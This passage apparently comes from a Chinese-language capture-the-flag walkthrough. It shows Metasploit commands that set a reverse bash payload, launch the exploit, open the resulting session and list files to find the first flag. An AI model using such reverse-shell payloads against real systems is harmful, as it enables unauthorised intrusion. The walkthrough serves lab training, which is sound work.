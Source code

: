 ```
# 使用合适的 exp payload
set payload payload/cmd/unix/reverse_bash
#执行当前的漏洞利用模块
exploit -j
# 查看打开的reverse shell
sessions -l
# 进入会话 1，无命令行交互提示信息，可以直接输入bash指令获取第一个flag
sessions -i 1
id
ls /tmp
```

![alt text](./image/image-16.png)

![alt text](./image/image-17.png)

将上图中显示出的flag提交，可以发现成功，进度条涨至20%。

![alt text](./image/image-18.png)
